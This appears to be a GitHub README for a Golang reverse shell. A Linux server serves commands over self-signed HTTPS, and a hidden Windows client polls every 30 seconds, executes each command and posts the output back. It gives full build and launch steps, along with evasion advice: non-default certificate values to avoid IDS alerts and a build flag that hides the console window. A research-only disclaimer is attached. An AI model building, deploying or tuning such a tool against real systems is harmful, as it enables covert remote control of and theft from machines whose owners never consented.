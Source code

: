 # Golang HTTPS/TLS Reverse Shell

This is a proof of concept Windows reverse shell written in Golang that uses HTTPS/TLS for communication. The Linux server uses a self-signed certificate and hosts a single static file that contains a Windows command. The Windows client is a x64 PE executable that does a GET request every 30 seconds to obtain a Windows command from the server which then is executed and the results are sent via POST. A traffic file is included with this repository to show an example of the encrypted reverse shell communication.

**Disclaimer: This reverse shell is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Server (Linux)

It's recommended not to use default values when creating a self-signed certificate as this could generate a certificate that will alert an IDS. Also, note that as the client/server is running you may modify `static/command.html` to your liking.

```shell
$ # create a new directory for your server
$ mkdir server && cd $_
$ # generate a 2048-bit private key and a self-signed certificate
$ openssl req -newkey rsa:2048 -nodes -keyout server.key -x509 -days 365 -out server.crt
$ # create the static directory
$ mkdir static
$ # write a windows command to command.html for the client to GET
$ echo "dir" > static/command.html
$ # build the server
$ go build server.go
$ # start the server
$ sudo ./server
```


## Client (Windows)

You will need to modify the IP address in `client.go` to fit your needs. It's required to first build the client normally, and then build it with the switch options to hide the command prompt window. Double clicking the binary will start the client, given there is a properly configured server. The client has only been tested to work on Windows 7.

```batch
C:\> :: build the client
C:\> go build client.go
C:\> :: rebuild the client so the command prompt is hidden
C:\> go build -ldflags -H=windowsgui client.go
C:\> :: start the client
C:\> client.exe
```
